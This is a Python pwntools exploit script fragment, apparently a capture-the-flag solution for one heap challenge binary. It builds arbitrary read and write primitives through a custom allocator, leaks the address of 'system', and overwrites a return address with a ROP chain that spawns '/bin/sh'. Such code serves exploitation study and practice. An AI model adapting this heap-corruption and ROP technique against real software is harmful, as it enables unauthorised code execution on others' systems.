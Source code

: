 ```python

    add(5, 0x10, heap.fixed, p64(0xdeadbeef))
    def abread(addr):
        resize(5, 0, heap.fixed)
        add(5, 0x10, heap.fixed, p64(addr-8))
        add(6, 0x100, heap.smp, '')
        show(6)
    def abwrite(addr, content):
        resize(5, 0, heap.fixed)
        add(5, 0x10, heap.fixed, p64(addr))
        add(6, 0x100, heap.smp, content)

    abread(ret_addr)
    add(6, 0x100, heap.smp, '')
    show(6)
    rv(8)
    system_addr = u64(rv(8)) + 0x26fe0
    lg("system", system_addr)

    binsh = 0x1008408
    prdi_rbp = 0x1002e91
    rop = p64(prdi_rbp) + p64(binsh)*2
    rop += p64(system_addr)
    abwrite(ret_addr, rop)
    bye()

    p.interactive()
```

